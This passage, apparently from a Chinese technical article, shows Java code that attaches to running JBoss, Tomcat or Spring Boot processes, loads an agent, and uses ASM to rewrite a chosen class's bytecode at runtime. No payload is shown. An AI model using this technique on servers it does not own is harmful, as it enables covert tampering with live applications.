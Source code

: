 ```plain
                    vlist.add(vm);
                }
            }
            if ("jboss".equals(ctype)) {
                if (vmd.displayName().toLowerCase().indexOf("jboss.as.standalone") >= 0) {
                    vm = VirtualMachine.attach(vmd);
                    vlist.add(vm);
                }
            }
            if ("tomcat".equals(ctype)) {
                if (vmd.displayName().toLowerCase().indexOf("catalina") >= 0 || vmd.displayName().equals("")) {
                    vm = VirtualMachine.attach(vmd);
                    if (vmd.displayName().equals("") && vm.getSystemProperties().containsKey("catalina.home") == false) continue;
                    vlist.add(vm);
                }
            } else if ("springboot".equals(ctype)) {
                vm = VirtualMachine.attach(vmd);
                if (!vm.getSystemProperties().containsKey("sun.boot.library.path")) {
                    continue;
                } else {
                    vlist.add(vm);
                }
            }
        }
        for (int i = 0; i < vlist.size(); i++) {
            try {
                vm = vlist.get(i);
                if (null != vm) {
                    vm.loadAgent(agentFile, agentArgs);
                    vm.detach();
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    } catch (Exception e) {
        e.printStackTrace();
    }
}
```

因为这里的 agentmain 会在类加载后进行调用，这里实现一个 TransformerAsm，通过执行这个 asm 的字节篡改类达到目的，代码如下：

```plain
public static void agentmain(String agentArgs, Instrumentation inst) {
    try {
        inst.addTransformer(new TransformerAsm(), true);
        Class[] loadedClasses = inst.getAllLoadedClasses();
        for (Class c: loadedClasses) {
            if (c.getName().equals(classname)) {
                try {
                    inst.retransformClasses(c);
                } catch (Exception e) {
                    e.printStackTrace();
                }
            }
        }
    } catch (Exception e) {
        e.printStackTrace();
    }
}
```

